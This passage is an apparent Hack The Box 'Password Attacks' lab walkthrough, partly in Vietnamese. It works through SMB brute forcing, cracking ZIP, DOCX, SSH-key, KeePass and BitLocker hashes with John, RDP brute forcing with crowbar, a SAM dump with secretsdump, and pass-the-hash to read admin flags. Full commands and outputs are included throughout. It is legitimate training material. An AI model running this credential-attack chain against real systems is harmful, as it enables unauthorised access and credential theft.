[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\finance:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\its:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\ict:123456'
[+] 10.129.26.117:445     - 10.129.26.117:445 - Success: '.\hr:123456'
[-] 10.129.26.117:445     - 10.129.26.117:445 - Failed: '.\sam:123456',
[-] 10.129.26.117:445     - 10.129.26.117:445 - Failed: '.\sam:12345',
...
```

```zsh
❯ cat smb_creds.txt | grep 'Success' | cut -d "'" -f 2 | sed 's/^\.\\//' > valid_smb
```

### SMB

```zsh
❯ crackmapexec smb 10.129.26.117 -u john -p '123456' --shares
SMB         10.129.26.117   445    SKILLS-MEDIUM    [*] Windows 6.1 Build 0 (name:SKILLS-MEDIUM) (domain:) (signing:False) (SMBv1:False)
SMB         10.129.26.117   445    SKILLS-MEDIUM    [+] \john:123456 
SMB         10.129.26.117   445    SKILLS-MEDIUM    [+] Enumerated shares
SMB         10.129.26.117   445    SKILLS-MEDIUM    Share           Permissions     Remark
SMB         10.129.26.117   445    SKILLS-MEDIUM    -----           -----------     ------
SMB         10.129.26.117   445    SKILLS-MEDIUM    print$                          Printer Drivers
SMB         10.129.26.117   445    SKILLS-MEDIUM    SHAREDRIVE      READ            SHARE-DRIVE
SMB         10.129.26.117   445    SKILLS-MEDIUM    IPC$                            IPC Service (skills-medium server (Samba, Ubuntu))
                                                                                                                                                                                             
❯ crackmapexec smb 10.129.26.117 -u john -p '123456' --shares
❯ smbclient -U john //10.129.26.117/SHAREDRIVE
Password for [WORKGROUP\john]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Feb 10 05:39:38 2022
  ..                                  D        0  Thu Feb 10 05:35:54 2022
  Docs.zip                            N     6724  Thu Feb 10 05:39:38 2022
ge
                14384136 blocks of size 1024. 10222208 blocks available
smb: \> get doc.zip
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \doc.zip
smb: \> get Docs.zip
getting file \Docs.zip of size 6724 as Docs.zip (6.1 KiloBytes/sec) (average 6.1 KiloBytes/sec)
smb: \> 

```


### Cracking Docs.zip

```zsh
❯ zip2john Docs.zip > Docs.hash
❯ john --wordlist=../mut_password.list Docs.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Destiny2022!     (Docs.zip/Documentation.docx)     
1g 0:00:00:00 DONE (2025-04-29 12:46) 100.0g/s 3276Kp/s 3276Kc/s 3276KC/s br@ndon2015!..F00tb@ll81
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### Cracking .docx file

```zsh
❯ office2john Documentation.docx > docx.hash
❯ john --wordlist=../mut_password.list docx.hash
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 128/128 AVX 4x / SHA512 128/128 AVX 2x AES])
Cost 1 (MS Office version) is 2007 for all loaded hashes
Cost 2 (iteration count) is 50000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
987654321        (Documentation.docx)     
1g 0:00:00:01 DONE (2025-04-29 12:49) 0.7633g/s 2735p/s 2735c/s 2735C/s 9876542017!..98765432109
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

#### Found credentail login via ssh
jason:C4mNKjAtL2dydsYa6


### Check mysql service

```zsh
jason@skills-medium:~$ mysql -u jason -p
```

```sql
mysql> select * from users.creds;
+-----+--------------------+----------------+
| id  | name               | password       |
+-----+--------------------+----------------+
|   1 | Hiroko Monroe      | YJE25AGN4CX    |
|   2 | Shelley Levy       | GOK34QLM1DT    |
|   3 | Uriel Velez        | OAY05YXS1XN    |
|   4 | Vanna Benton       | EAU86WAY1BY    |
|   5 | Philip Morales     | ONC53GFI2ID    |
|   6 | Joshua Morgan      | AHJ46CDW4LH    |
|   7 | Hadley Hanson      | YVD16TIY3QI    |
|   8 | Branden Moses      | ZBE71RLJ5HN    |
|   9 | Pandora Sears      | WYP33WEF5GY    |
|  10 | Orla Lambert       | MLZ15XKR8SF    |
|  11 | Maite Moran        | FOS06OOU2DF    |
|  12 | Cassandra Mccarthy | SIB53CEH5DE    |
|  13 | Leroy Sullivan     | HIC68RBH5EI    |
|  14 | Wyoming Quinn      | LJM77SJC6BN    |
|  15 | Asher Wise         | HHP00OHN8OD    |
|  16 | Shelby Garrison    | SOI55QEP2QC    |
|  17 | Garth Landry       | YOX30FPX2UK    |
|  18 | Cailin Lang        | VYE12SKJ3BG    |
|  19 | Tyrone Gross       | GCM52PLH8LH    |
|  20 | Moana Bernard      | EMK37PGI1BC    |
|  21 | Nell Forbes        | YXY78WCW4GX    |
|  22 | Acton Mccormick    | RSI82CFW9QR    |
|  23 | Odessa Knapp       | CXR22UOP5PV    |
|  24 | Gary Phelps        | KDN93TNB6IB    |
|  25 | Jonah Byrd         | GWK11PET1YK    |
|  26 | Lewis Clements     | ACJ89KMH8IX    |
|  27 | Hasad Dejesus      | GSH56VRQ3FD    |
|  28 | Naomi Guerra       | YJY12IMO3YJ    |
|  29 | Renee Levine       | UAT22NOU6JJ    |
|  30 | Dieter Terry       | KPE74PKB7BE    |
|  31 | Lucas Cooper       | JQY67QCL3SG    |
|  32 | Reece Cherry       | TGV05UOE4MW    |
|  33 | Len Olsen          | SQT66ETU2ML    |
|  34 | Amir Booth         | SNA73SNK1CZ    |
|  35 | Logan Burnett      | BDY84TGX7WC    |
|  36 | Quinn Mcintyre     | UEL46HQC8PI    |
|  37 | Harding Garrison   | MUT33ERW8PN    |
|  38 | Addison Ellison    | RYR75LXH4WI    |
|  39 | Anne Rose          | IOI62GUK7KK    |
|  40 | Alika Richmond     | GUK64BKH7NJ    |
|  41 | Kennan Hopkins     | AKE20VJV3TK    |
|  42 | Katell Pace        | KDK46LGC3TS    |
|  43 | Shoshana Murray    | TDX83THW8CG    |
|  44 | Erasmus Brewer     | MBN41SYM4SC    |
|  45 | Lewis Bryan        | DDI16XVP2LF    |
|  46 | Yoko Bryan         | ISE37BPH4HE    |
|  47 | Karleigh York      | JYU77OSI6XM    |
|  48 | Brennan Nelson     | LUM81UWX3EX    |
|  49 | Quintessa Hughes   | OCE13YLK4YU    |
|  50 | Clinton Pugh       | LYM63FLG3WJ    |
|  51 | Aaron Duncan       | EXI67QKU1DV    |
|  52 | Rebekah Boyle      | TSU58EWW7AV    |
|  53 | Inga Pickett       | LBI88TBG8FG    |
|  54 | Nelle Harmon       | SCS45PQE2SF    |
|  55 | Lee Hendrix        | WCF07LWQ7DI    |
|  56 | Zane Reid          | WHM08PCI6YJ    |
|  57 | Neil Santos        | VFP69WHB8QJ    |
|  58 | Hilda Cameron      | ECP57KJV6GF    |
|  59 | Kasper Franklin    | CUB01RJE1TV    |
|  60 | Lamar Ellison      | ECD63FEI7EC    |
|  61 | Oliver Collier     | UAK54DNB5NU    |
|  62 | Jeanette Stewart   | HCY40SWK4TS    |
|  63 | Dean Hale          | FYX44JDS3FW    |
|  64 | Jasper Walter      | UHE24MXN7UY    |
|  65 | Tasha Nguyen       | LIC48RCT5XL    |
|  66 | Hamilton Lynch     | DBL85UPK4WA    |
|  67 | Mariko Harris      | VSH42HZG2NI    |
|  68 | Caleb Wooten       | RQK77XPZ3UM    |
|  69 | Adele Glenn        | CEH74EIK1HP    |
|  70 | Alvin Lambert      | IYI54DJF1VW    |
|  71 | Barbara Roman      | TYV58TDS0VW    |
|  72 | Naida Arnold       | SLS89ENT3CE    |
|  73 | Rebekah Alexander  | YRR18NTB0SI    |
|  74 | Chava Durham       | CRO01QSG2QS    |
|  75 | Ainsley Pittman    | HYY51CZI5IP    |
|  76 | Danielle Howell    | MGQ65TBI1IH    |
|  77 | Cairo Dale         | QKY37WGY6PK    |
|  78 | Kathleen Fulton    | QWA22ZTE7FK    |
|  79 | Kelsie Mcpherson   | BQP07JMR6HP    |
|  80 | Bevis Herman       | SOR60URB2NJ    |
|  81 | Mufutau Baldwin    | QBB25FTD7HV    |
|  82 | Genevieve Ryan     | KON69QNC5UQ    |
|  83 | Lucius Wall        | JVX56EQT7YI    |
|  84 | Cassidy Gutierrez  | KLZ78QIH6KH    |
|  85 | Aladdin Fisher     | KYS21TWU3GS    |
|  86 | Paul Lancaster     | WDW24NGN8KA    |
|  87 | Jael Roberts       | MML82LOC4FN    |
|  88 | Zena Solomon       | DJN31MHH6UV    |
|  89 | Josephine Garza    | UWZ57ZKM1IV    |
|  90 | Jason Norman       | ISO35HVC2BW    |
|  91 | Rajah Ellison      | TIY46YPJ5TA    |
|  92 | Colt Ferrell       | YCX56EKU9QO    |
|  93 | Brenna Kinney      | FGD21LBQ6IS    |
|  94 | Valentine Mcdowell | XIP27KBN6KL    |
|  95 | Alexander Keith    | CJT35RAJ7DC    |
|  96 | Charles Bell       | FAG53RFK7TH    |
|  97 | Justina Greer      | YPG28SUE4JD    |
|  98 | Elton Wallace      | SGH05RBW1YL    |
|  99 | Jamalia Byers      | KVE47IWE5UF    |
| 100 | Lael Rivers        | YNQ63NWP1RD    |
| 101 | dennis             | 7AUgWWQEiMPdqx |
+-----+--------------------+----------------+
```

### Checking users


### Get .ssh file


#### Cracking id_rsa phrase
```zsh
❯ ssh2john id_rsa > ssh_encrypted
❯ john --wordlist=../mut_password.list ssh_encrypted
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd12020!   (id_rsa)     
1g 0:00:00:00 DONE (2025-04-29 13:19) 50.00g/s 3568Kp/s 3568Kc/s 3568KC/s P@ssw0rd12000..P@ssw0rd12021
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### SSH as root

```zsh
❯ chmod 600 id_rsa
❯ ssh -i id_rsa root@10.129.26.117
Enter passphrase for key 'id_rsa': 
root@skills-medium:~# cat flag.txt 
HTB{PeopleReuse_PWsEverywhere!}
```

Done

# Password Attacks Lab - Hard
The next host is a Windows-based client. As with the previous assessments, our client would like to make sure that an attacker cannot gain access to any sensitive files in the event of a successful attack. While our colleagues were busy with other hosts on the network, we found out that the user `Johanna` is present on many hosts. However, we have not yet been able to determine the exact purpose or reason for this.

-  Examine the third target and submit the contents of flag.txt in C:\Users\Administrator\Desktop\ as the answer.

### Nmap

```zsh
# Nmap 7.95 scan initiated Tue Apr 29 13:24:08 2025 as: /usr/lib/nmap/nmap -sS -T 4 -p- --min-rate 3000 -oN hardlab.txt -v 10.129.202.222
Nmap scan report for 10.129.202.222
Host is up (0.27s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
49681/tcp open  unknown

Read data files from: /usr/share/nmap
# Nmap done at Tue Apr 29 13:24:34 2025 -- 1 IP address (1 host up) scanned in 26.07 seconds
```

### Bruteforce rdp

Như từ gợi ý chúng ta đã biết tên người dùng là `johanna`
#### Hydra



Tôi không hiểu tại sao hydra lỗi kết nối liên tục và quyết định dùng một công cụ khác, đó là crowbar.

#### crowbar

Ở trên kali linux, bạn có thể gặp lỗi này vì hiện nay đều dùng xfreerdp3 thay vì bản cũ:


Cách khắc phục như sau:

```zsh
❯ locate crowbar | grep main
/usr/share/crowbar/lib/main.py
/usr/share/crowbar/lib/__pycache__/main.cpython-313.pyc
❯ sudo nano /usr/share/crowbar/lib/main.py
```

Sửa path thành `/usr/bin/xfreerdp3`


Sửa cmd thành:


```zsh
❯ crowbar -b rdp -s 10.129.202.222/32 -u johanna -C ../mut_password.list
2025-04-29 16:44:50 RDP-SUCCESS : 10.129.202.222:3389 - johanna:1231234!
```
### rdp as johanna

```zsh
❯ xfreerdp3 /v:$ip /u:Johanna /p:1231234! /dynamic-resolution
```

### Logins.kdbx


Lấy file về:


### Cracking Keepass file

```zsh
❯ cp share/Logins.kdbx .
❯ keepass2john Logins.kdbx > kphass.txt
❯ john --wordlist=../mut_password.list kphass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Qwerty7!         (Logins)     
1g 0:00:03:28 DONE (2025-04-29 13:57) 0.004807g/s 351.3p/s 351.3c/s 351.3C/s qwerty4!..qwerty83!
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

found cred: `david:gRzX7YbeTcDG7`


Mở cmd.exe as user david:


Tìm thấy một file Backup.vhd ở đây


### Cracking Backup.vhd hash

```zsh
❯ bitlocker2john -i share/Backup.vhd > vhdfile.hash 
❯ nano backup.hash
❯ john --wordlist=../mut_password.list backup.hash
Note: This format may emit false positives, so it will keep trying even after finding a possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (BitLocker, BitLocker [SHA-256 AES 32/64])
Cost 1 (iteration count) is 1048576 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456789!       (?)     
```

### Mount the Backup.vhd

Set up tools and connect VHD to Network Block Device:

```zsh
❯ sudo apt install dislocker qemu-utils
❯ sudo modprobe nbd max_part=16
❯ sudo qemu-nbd -c /dev/nbd0 Backup.vhd
```

Kiểm tra phân vùng trong file VHD:

```zsh
❯ sudo fdisk -l /dev/nbd0
The backup GPT table is not on the end of the device.
Disk /dev/nbd0: 130 MiB, 136315392 bytes, 266241 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 131072 bytes
Disklabel type: gpt
Disk identifier: E0E57133-41D5-4D8C-B375-F2A10AD403B0

Device      Start    End Sectors  Size Type
/dev/nbd0p1    34  32767   32734   16M Microsoft reserved
/dev/nbd0p2 32768 262143  229376  112M Microsoft basic data
```

Giải mã BitLocker bằng `dislocker`

```zsh
❯ sudo mkdir /mnt/bitlocker
❯ sudo mkdir /mnt/decrypted
❯ sudo dislocker -V /dev/nbd0p2 -u123456789! -- /mnt/bitlocker
❯ sudo mount -o loop /mnt/bitlocker/dislocker-file /mnt/decrypted
❯ cd /mnt/decrypted
❯ ls
'$RECYCLE.BIN'   SAM   SYSTEM  'System Volume Information'
```

Found hive\SAM and hive\SYSTEM, it must be a SAM dump!


### SAM ATTACK

```zsh
❯ impacket-secretsdump -sam SAM -system SYSTEM LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e53d4d912d96874e83429886c7bf22a1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9e73cc8353847cfce7b5f88061103b43:::
sshd:1000:aad3b435b51404eeaad3b435b51404ee:6ba6aae01bae3868d8bf31421d586153:::
david:1009:aad3b435b51404eeaad3b435b51404ee:b20d19ca5d5504a0c9ff7666fbe3ada5:::
johanna:1010:aad3b435b51404eeaad3b435b51404ee:0b8df7c13384227c017efc6db3913374:::
[*] Cleaning up... 

```


### PASS THE HASH

Với việc có hàm băm của người dùng `Administrator`, chúng ta có thể pass the hash với bất kì công cụ nào mà chúng ta muốn như xfreerdp3 (lưu ý bạn phải biết tránh lỗi đã được đề cập), evil-winrm, cme hay impacket,....

```zsh
❯ crackmapexec smb 10.129.202.222 -u Administrator -H e53d4d912d96874e83429886c7bf22a1 -x 'type C:\Users\Administrator\Desktop\flag.txt.txt'
SMB         10.129.202.222  445    WINSRV           [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.202.222  445    WINSRV           [+] WINSRV\Administrator:e53d4d912d96874e83429886c7bf22a1 (Pwn3d!)
SMB         10.129.202.222  445    WINSRV           [+] Executed command 
SMB         10.129.202.222  445    WINSRV           HTB{PWcr4ck1ngokokok}
```

Hoặc

```zsh
❯ evil-winrm -i 10.129.202.222 -u Administrator -H e53d4d912d96874e83429886c7bf22a1
```

Xong việc, chúng ta cần trả lại một vài thứ:

```zsh
❯ sudo umount /mnt/decrypted
❯ sudo umount /mnt/bitlocker
❯ sudo qemu-nbd -d /dev/nbd0
/dev/nbd0 disconnected
```

Happy hecking!